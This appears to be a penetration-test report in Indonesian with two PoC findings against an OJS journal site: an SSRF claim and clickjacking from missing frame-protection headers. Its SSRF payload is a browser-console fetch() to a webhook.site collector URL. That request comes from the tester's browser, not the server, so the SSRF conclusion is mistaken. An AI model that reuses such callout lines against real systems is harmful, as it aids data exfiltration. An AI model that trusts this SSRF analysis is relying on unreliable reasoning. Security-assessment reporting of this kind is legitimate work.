

# Tabel Proof-of-Concept (PoC) Vulnerability
## PoC Vulnerability \#1

| Field | Nilai |
|---|---|
| **Nama Kerentanan** | Server-Side Request Forgery (SSRF) |
| **Tool Penemu** | Manual / DAST |
| **Tool Spesifik** | Browser DevTools (Console) & Webhook.site |
| **URL / File** | `/index.php/journal1/` |
| **Parameter / Baris Kode** | Fetch API / Outbound Request |
| **Method** | GET |
| **Payload** | `fetch('https://webhook.site/610ee387-042f-4ded-8e3c-352e9975486b?demo=SSRF_VIA_CONSOLE', { method: 'GET', mode: 'no-cors' })` |
| **Response / Bukti** | HTTP GET Request diterima oleh Webhook.site dari Host: 2405:8740:6363::2:a6 |
| **OWASP Category** | A10:2021 – Server-Side Request Forgery (SSRF) |
| **Severity (Raw)** | High |

### Bukti

### Catatan

**Langkah dan Tujuan:**
Pengujian dilakukan dengan menjalankan script *fetch* melalui Console browser pada domain aplikasi target (OJS). Tujuan utama dari pengujian ini adalah untuk memverifikasi apakah server aplikasi atau infrastruktur jaringan yang digunakan memungkinkan terjadinya *Outbound Request* (permintaan keluar) ke server eksternal yang tidak dipercaya tanpa adanya filter atau batasan (*Allowlist*).

**Analisis Hasil:**
Berdasarkan hasil tangkapan pada Webhook.site, ditemukan bahwa request dengan query string `?demo=SSRF_VIA_CONSOLE` berhasil diterima. Host pengirim terdeteksi menggunakan alamat IPv6 (`2405:8740:6363::2:a6`) yang berasal dari lokasi Malang, Indonesia. Hal ini membuktikan bahwa aplikasi rentan terhadap eksploitasi SSRF, di mana penyerang dapat memaksa server untuk melakukan permintaan ke infrastruktur pihak ketiga. Dalam skenario serangan nyata (seperti pada CVE-2021-27188), celah ini dapat disalahgunakan untuk memindai jaringan internal (*internal port scanning*), mengakses layanan lokal yang tersembunyi, atau melakukan *data exfiltration*.

-----

## PoC Vulnerability \#2
| Field | Nilai |
|---|---|
| **Nama Kerentanan** | Clickjacking (UI Redressing) via Missing X-Frame-Options |
| **Tool Penemu** | Manual Verification (Berdasarkan DAST Nikto & ZAP) |
| **Tool Spesifik** | Nikto 2.1.5, ZAP 2.17.0 |
| **URL / File** | `/ojs/` |
| **Method** | UI Redressing (Framing) |
| **Response / Bukti** | Header X-Frame-Options dan Content-Security-Policy dengan directive frame-ancestors tidak ditemukan dalam respons HTTP |
| **OWASP Category** | A05:2021-Security Misconfiguration |
| **Severity (Raw)** | Medium |

**Screenshot:**

### Catatan

**Langkah dan Tujuan:**
Tujuan dari pengujian ini adalah untuk membuktikan secara teknis bahwa aplikasi target tidak memiliki mekanisme perlindungan terhadap serangan UI Redressing atau Clickjacking. Dengan melakukan verifikasi manual, pengujian ini bermaksud menunjukkan bahwa ketiadaan konfigurasi header keamanan pada level server memungkinkan pihak luar untuk memuat dan memanipulasi tampilan aplikasi di dalam bingkai (frame) domain lain, yang dapat berujung pada penipuan tindakan pengguna. Proses reproduksi dilakukan dengan menyusun sebuah file HTML lokal sederhana yang berfungsi sebagai halaman penyerang. File tersebut memuat kode HTML standar yang menggunakan elemen <iframe> dengan atribut src diarahkan langsung ke URL aplikasi target, yakni http://10.34.100.181/ojs/. Selain itu, atribut style diberikan pada elemen tersebut untuk mengatur dimensi tampilan sebesar 800x600 piksel guna memastikan halaman target dapat terlihat dengan jelas saat dimuat. Setelah file disimpan, langkah terakhir adalah membuka file tersebut menggunakan browser untuk memverifikasi apakah server target mengizinkan permintaan pemuatan halaman di dalam bingkai eksternal tersebut.

**Analisis Hasil:**
Berdasarkan pengujian yang telah dijalankan, ditemukan hasil bahwa browser berhasil memrender seluruh antarmuka halaman "Terbitan Terkini" dari aplikasi OJS di dalam file lokal tanpa adanya blokir dari sistem keamanan server. Hal ini terlihat jelas pada bukti gambar yang menunjukkan situs target muncul secara utuh di bawah teks deskripsi file lokal. Hasil ini mengonfirmasi temuan alat pemindai bahwa tidak ada header X-Frame-Options atau Content-Security-Policy yang dikirimkan oleh server, sehingga secara teknis situs tersebut sepenuhnya rentan terhadap serangan manipulasi antarmuka.

-----
